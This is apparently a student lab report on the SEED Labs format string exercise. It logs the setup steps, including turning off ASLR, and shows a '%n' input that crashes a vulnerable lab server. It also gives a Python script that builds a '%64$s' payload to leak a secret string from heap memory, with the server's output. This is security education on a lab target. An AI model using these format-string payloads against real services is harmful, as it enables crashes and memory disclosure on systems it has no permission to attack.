 # Format String Lab

## Introduction

In this week’s lab, our group focused on the Format String Attack exercise from SEED Labs. The primary goal of our work was to demonstrate how unsafe use of format strings (for example, passing user-controlled data directly to `printf`) can be abused to read and write a memory program, potentially enabling arbitrary code execution or privilege escalation.
For this exercise we followed the SEED tutorial and used the provided auxiliary files located in the `category-software/Format_String` directory of the SEED Labs repository on GitHub.
The report that follows documents command-by-command logs, payloads, debugger sessions, and explanations of why each vulnerability works at the OS level.

---

## Setup

We used the command `sudo sysctl -w kernel.randomize_va_space=0` to temporarily disables ASLR (Address Space Layout Randomization), making stack/heap addresses predictable to simplify exploit reproduction.

After that we went to the `Labsetup/server-code` and used these 2 commands

1. `make`
2. `make install`

We wanted compile the code, by executing the commands in the `Makefile`
We finded warning in the process but the SEED Lab said we can ignore that warning by now.

To finish the setup i tested commands:

- `dcbuild`
- `dcup`

To build and start the containers

## Task 1

We sended a string to the server runnning in 32-bit program with the Format String vulnerability with the command `echo hello | nc 10.9.0.5 9090` and then finished the comando by pressing `ctrl + c`

To crash the myprintf() function, we just used `echo "%n" | nc 10.9.0.5 9090`, because the `%n`tells printf to write to a pointer but without an argument, it writes to a random address, causing a crash.

But i could have use `python3 build_string.py` to create a file with the name `badfile`, then i would use the command `cat badfile | nc 10.9.0.5 9090` to have the same results, the myprintf() functio would crash

## Task 2.b

The objetive of this task its print a secret string that lives on the heap.

First i finded the secret message's address in the server log `server-10.9.0.5 | The secret message's address:  0x080b4008`, now i needed that in the Little-Endian format, that i got it by the code the lab disponibilized
```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*12 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

*But i modified it a little, to do what i needed*

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

secret_address = 0x080b4008

(little-endian)
content[0:4] = (secret_address).to_bytes(4, byteorder='little')

# Format String
s = "%64$s"

fmt = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to stdout (to use with a pipe)
sys.stdout.buffer.write(content)
```

And then we used the comando `python3 2b.py | nc 10.9.0.5 9090`, and got
```terminal
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd0c0
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffcfe8
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 |@
                 A secret message
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```
And here we go, we got the secret message, its "A secret message"
